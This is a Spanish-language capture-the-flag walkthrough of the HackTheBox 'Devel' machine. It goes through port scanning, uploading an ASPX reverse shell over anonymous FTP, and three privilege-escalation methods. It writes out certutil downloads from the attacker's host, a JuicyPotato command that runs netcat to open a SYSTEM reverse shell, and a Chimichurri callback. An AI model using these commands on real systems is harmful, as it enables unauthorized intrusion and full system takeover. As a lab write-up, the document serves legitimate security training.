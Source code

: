 #  DEVEL MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/1.png)

## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```
nmap -p- --open -T5 - v -n 10.10.10.5 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```
nmap -p21,80 -sV -sC 10.10.10.5 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/3.png)

## EXPLOTACION

Vemos el puerto 21 FTP con usuario anonymous habilitado es decir que si nos conectamos con el **username: anonymous** y colocamos cualquier password entrariamos:

```bash
ftp 10.10.10.5
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/4.png)

vemos que tiene ciertos archivos que talvez lo estamos viendo desde la pagina web, hay una conexion entrer el FTP y el servidor web, veamos la pagina web:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/5.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/5.png)

nos indica la version de IIS que usa (7.5), si vemos en el FTP se encuentra la imagen de la pagina por lo que podemos intuir que si podemos cargar archivos podemos verlos desde la pagina web.

probemos si podemos subir un archivo, creamos uno de prueba y nos conectamos como anonymous en la misma ruta del archivo y haces un **PUT** desde el ftp:

```bash
echo "hola mundo" > test.txt
```

```bash
put test.txt
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/7.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/8.png)

vemos que si podemos cargar archivos. IIS usa archivos de extension asp y aspx, vamos a probar con aspx por la version.

encontre este exploit en github: [https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx) solo debemos cambiar la IP y el puerto al que estaremos a la escucha:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/9.png)

una vez modificado el exploit lo cargamos por FTP, nos colocamos a la escucha y lo apuntamos desde la pagina web:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/10.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/11.png)

vemos que ingresamos pero no podemos acceder a la carpeta de los usuarios:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/12.png)

tocara elevar privilegios para ver las flags.

## ELEVACION DE PRIVILEGIOS

Hay tres formas de elevar privilegios:

**METODO 1**

si vemos los privilegios del usuario:

```bash
whoami /priv
```

tiene el SEimpersonate habilitado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/13.png)

Podemos usar el juicypotato, primero descargamos el binario: [https://github.com/ohpe/juicy-potato/releases/tag/v0.1](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

por si da error aca el de 32 bits: [https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)

y descargamos el binario de netcat: [https://github.com/int0x33/nc.exe/pulse](https://github.com/int0x33/nc.exe/pulse)

en la maquina windows nos vamos a una ruta donde podamos escribir:

```bash
cd c:\Users\Public\Documents
```

nos montamos un servidor en python donde se encuentra el juicypotato y el netcat:

```bash
python -m SimpleHTTPServer
```

y pasamos los binarios a la maquina windows, desde windows ejecutamos:

```bash
certutil.exe -f -urlcache -split http://10.10.14.10:8000/jp86.exe jp86.exe

certutil.exe -f -urlcache -split http://10.10.14.10:8000/nc.exe nc.exe
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/14.png)

ahora ejecutamos el juicypotato de la siguiente manera:

```bash
jp86.exe -l 1337 -p c:\users\public\documents\nc.exe -a "-e cmd 10.10.14.10 4545" -c CLSID -t *
```

* -l: lo dejamos por defecto
* -p: que queremos ejecutar como SYSTEM
* -a: argumentos de lo que queremos ejecutar
* -t: lo dejamos por defecto asi
* -c: el CLSID por sistema operativo.

Para saber ante que sistema operativo estamos podemos hacer un:

```bash
systeminfo
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/15.png)

ahora sobre ese resultado buscamos el CLSID que corresponda aqui:

[https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)

me funciono este: **{659cdea7-489e-11d9-a9cd-000d56965251}**

```bash
jp86.exe -l 1337 -p c:\users\public\documents\nc.exe -a "-e cmd 10.10.14.10 4545" -c "{659cdea7-489e-11d9-a9cd-000d56965251}" -t *
```

como estamos llamado a netcat, antes de ejecutar, nos colocamos a la escucha por el 4545 y al ejecutarlo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/16.png)

elevamos privilegios, ahi las flags:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/17.png)

**METODO 2**

vamos a buscar un exploit para la version del sistema operativo ya que en el systeminfo vimos que es un windows 7 y es un poco antiguo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/15.png)

si buscamos en google vemos que es el **MS11-046**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/18.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/19.png)

vamos a buscarlo como **MS11-046**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/20.png)

vemos en el repo un binario lo pasamos a la maquina windows:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/21.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/22.png)

lo ejecutamos y miren quien somos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/23.png)

**METODO 3**

Uso de **chimichurri.exe** este es un exploit para elevar privilegios localmente y afecta a versiones Windows 2008 R1 & R2, Windows Vista y Windows 7.

cuando te topes con alguno de ellos no esta demas probarlo.

lo descargamos de aca [https://github.com/Re4son/Chimichurri](https://github.com/Re4son/Chimichurri)

lo pasamos a la maquina windows y lo ejecutamos:

```bash
chimichurri.exe ip_attacker port
```

```bash
chimichurri.exe 10.10.14.10 4545
```

nos colocamos a la escucha con netcat en ese puerto y miren quien somos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DEVEL/images/24.png)

